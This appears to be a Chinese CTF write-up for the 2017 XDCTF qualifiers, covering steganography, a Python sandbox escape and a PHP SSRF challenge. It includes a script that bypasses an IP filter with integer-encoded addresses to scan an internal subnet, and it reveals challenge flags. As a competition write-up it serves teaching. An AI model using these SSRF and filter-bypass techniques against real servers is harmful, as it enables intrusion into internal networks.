 ```yaml
---
layout: w
title: XDCTF 初赛部分题目WriteUp
date: 2017-10-04 13:27:27
tags:
	- CTF
	- XDCTF
	- Writeup
---
```




## Crypto

### 0x01 基础为王


从给的数据包中，可以找到两个分别名为flag-1 flag-2的图片，提取出来以后，使用Stegosolve进行一次XOR操作即可获得flag

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Crypto-1.png)


### 0x02 基础之Base64

给了长长的一大串base64，解密之后是一个C程序脚本，运行出helloword..

肯定不对啊，谷歌找资料，知道为base64隐写，网上有脚本可以直接进行解密

脚本如下

	# -*- coding: cp936 -*-
	b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
	with open('data.txt', 'rb') as f:
    	bin_str = ''
    	for line in f.readlines():
    	    stegb64 = ''.join(line.split())
    	    rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
      		offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        	equalnum = stegb64.count('=') #no equalnum no offset
        	if equalnum:
            	bin_str += bin(offset)[2:].zfill(equalnum * 2)
        	print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
直接运行即可



## Web

Web就做出来一个题，比较菜/(ㄒoㄒ)/~~

### 0x01 Web2

题目忘记截图了。

python用来执行系统命令的四种方法都行不通，故意引用一个不存在的模块会在错误报告中，找到绝对路径

	File "/codes/6707603a4141a84912289293db7dcc1f/a.py"

而且glob模块并没有被禁用，可以借助它来列目录

	
	import glob
	for filename in glob.glob(r''):
		print filename

从绝对路径开始，往下找，flag就在codes目录中，直接open读取输出即可获得flag


### 0x02 Web3
这个题目我没做出来，在此放上大表哥的flag

flag页面的URL为`http://web.ctf.xidian.edu.cn/web3/?file=flag.html`，推测为文件读取。

将flag.html改为index.php获得源码

	php
	<?php
	/*//设置open_basedir
	ini_set("open_basedir", "/home/shawn/www/index/");
	 */
	
	if (isset($_GET['file'])) {
		$file = trim($_GET['file']);
	} else {
		$file = "main.html";
	}
	
	// disallow ip
	if (preg_match('/^(http:\/\/)+([^\/]+)/i', $file, $domain)) {
		$domain = $domain[2];
		if (stripos($domain, ".") !== false) {
			die("Hacker");
		}
	}

	if( 	@file_get_contents($file)!=''){
	echo file_get_contents($file);
	
	}else{
  	


在这里卡了很久，最后推测是ssrf，通过读取`/etc/hosts`文件得知内网ip为`172.18.0.3`。

由于正则表达式过滤了形如`127.0.0.1`的ip，使用整形ip来代替，扫描内网。

	python
	#-*- coding:utf-8 -*-
	import socket
	import requests
	import urllib
	
	for i in range(1, 256):
		ip = '172.18.0.%d' % i
		int_ip = int(socket.inet_aton(ip).encode('hex'), 16)
		#print int_ip
		r = requests.get('http://web.ctf.xidian.edu.cn/web3/?file='+urllib.quote_plus('http://%d' % int_ip))
		if 'flag' in r.text:
			print ip, int_ip
			print r.text
			break


172.18.0.2有flag


	172.18.0.2 2886860802
	<html>
	<head><title>403 Forbidden</title></head>
	<body bgcolor="white">
	<center><h1>403 Forbidden</h1></center>
	<hr><center>nginx/1.13.5</center>
	</body>
	</html>
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- do u see me? ha flag{0e34c0321b2b3048d399b41a8ffda584} -->
## Misc

### 0x01 邮箱

根据提示

小黑发现一个有趣的博客，于是注册了一个账号，你能找到他的邮箱地址吗？
注意：直接递交邮箱地址即可。

打开数据包后，查找含有 register 的数据流

	http contains "register"

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-1.png)

分别进行追踪流操作，经过尝试可以获得flag

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-2.png)
